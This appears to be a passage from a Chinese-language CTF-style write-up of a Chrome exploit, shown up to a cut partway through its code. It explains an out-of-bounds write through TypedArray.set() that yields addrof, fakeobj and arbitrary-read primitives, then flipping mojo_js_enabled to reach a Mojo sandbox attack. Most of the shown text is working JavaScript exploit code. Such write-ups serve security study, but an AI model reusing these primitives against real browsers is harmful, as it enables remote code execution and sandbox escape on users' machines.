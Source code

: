 在使用 TypedArray 的 built-in function `.set()` 時，並不會對 index 做 bound 檢查，因此能做到將資料蓋寫到後面的資料，構造 primitive `addrof`、`fakeobj` 的方式是透過 oob 蓋掉某個 JSObject 的 length，藉此讀取與蓋寫後續的 JSObject ，而 `aar64` 與 `aaw64` 是透過蓋寫 TypedArray 的 data_ptr。最後透過建立 div html element，並讀取其 member 取得 HTMLDivElement 的位址，透過減去 offset 得到 code base，而後加上 `mojo_js_enabled` 的 offset，蓋寫成 1 來開啟 mojoJS，才能在第二階段攻擊 Mojo，exploit 如下：

```js
let x = new Uint32Array(1);
let y = new Uint32Array(1);
let oob = [1.1];
let evil = [{}];
let victim_obj = new BigUint64Array(1);
x.set([0x2222], 0);
// you dont need to overwrite length in element
// y.set(x, 20);
y.set(x, 26);

let buf = new ArrayBuffer(8);
let u32 = new Uint32Array(buf);
let u64 = new BigUint64Array(buf);
let f64 = new Float64Array(buf);

function addrof(obj) {
    evil[0] = obj;
    f64[0] = oob[4];
    return BigInt(u32[0] - 1);
}

function fakeobj(addr) {
    oob[4] = addr;
    return evil[0];
}

// leak high heap address from typed array
// external_pointer (obj + 0x28)
f64[0] = oob[25];
let high_heap = BigInt(u32[1]) << 32n;
console.log("[+] heap high address: ", high_heap.toString(16));

// the typed array data_ptr is
// base_pointer(obj+0x30, 4 bytes) + external_pointer(obj+0x28, 8 bytes)
// so we can overwrite externel + base_pointer
// to achieve aar and aaw
function i642f(val) {
    u64[0] = val;
    return f64[0];
}

function f2i64(val) {
    f64[0] = val;
    return u64[0];
}

function aar64(addr) {
    backup_high = oob[25];
    backup_low = oob[26];
    save = f2i64(oob[26]) & 0xffffffff00000000n;
    oob[25] = i642f((addr & 0xffffffff00000000n) | 7n); // high
    oob[26] = i642f(save + (((addr - 8n) | 1n) & 0xffffffffn)); // low
    ret = victim_obj[0];
    oob[25] = backup_high;
    oob[26] = backup_low;
    return ret;
}

```